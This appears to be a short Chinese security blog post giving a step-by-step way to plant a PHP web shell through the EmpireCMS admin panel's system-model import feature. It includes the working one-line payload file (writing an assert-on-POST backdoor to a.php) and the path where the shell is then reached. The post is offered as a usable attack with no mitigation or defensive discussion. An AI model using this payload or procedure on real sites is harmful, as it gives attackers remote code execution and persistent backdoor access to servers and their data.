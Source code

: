 ```yaml
---
title: "帝国 cms 后台 getshell"
date: 2018-04-12T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ["cms"]
categories: ["web"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



帝国 cms 后台 getshell

<!--more-->

系统- 数据库与系统模型 - 管理数据表 - 管理系统模型

![20220701151939](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220701151939.png)

本地新建 1.php.mod 内容

`<?fputs(fopen("a.php","w"),"<?php assert(\$_POST[a]);?>")?>`

导入系统模型 - 选择文件 - 马上导入

![20220701152006](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220701152006.png)

访问 /e/admin/a.php

![20220701152042](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220701152042.png)


